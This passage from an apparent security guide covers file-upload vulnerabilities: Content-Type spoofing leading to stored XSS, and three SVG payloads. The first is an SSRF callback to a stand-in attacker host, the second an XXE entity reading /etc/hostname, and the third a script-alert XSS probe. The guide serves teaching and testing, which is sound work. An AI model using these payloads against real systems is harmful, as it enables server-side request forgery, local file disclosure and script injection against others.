 If a malicious file is processed with an incorrect `Content-Type` and delivered to the client, it can lead to a client-side attack.

#### Scenario

  - An attacker uploads an HTML file containing malicious JavaScript while setting the `Content-Type` to `image/png`.
  - The file is treated as a safe image file and served to the client.
  - When the user opens the file, the malicious script executes, resulting in **Stored XSS**.

#### Prevention

  - **File format whitelist**: Clearly restrict the file formats allowed for upload.
  - **Output encoding**: Properly encode the file name or content if it is displayed to the user.

## Vulnerabilities in SVG Files

### Case 1: SSRF

For this exploit, an attacker needs to create an SVG file with the below content and change the controlled server URL to their own server:

```html
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
<image height="30" width="30" xlink:href="https://controlledserver.com/pic.svg" />
</svg>
```

If they upload this file to the application, there will be a callback if the application is vulnerable.

### Case 2: XXE

Here, attackers create an SVG file with the content shown below, and if the server is vulnerable the content of the local file is visible either in the response or in the image itself.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### Case 3: Cross-Site Scripting

In this case, attackers need to create an SVG file with the below content. If the server is vulnerable, they will see a pop-up showing that it is.

```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('XSS');</script>
  <rect x="0" height="100" width="100" style="fill: #cccccc"/>
  <line x1="20" y1="80" x2="80" y2="80" style="stroke: #ff0000; stroke-width: 5;"/>
</svg>
```
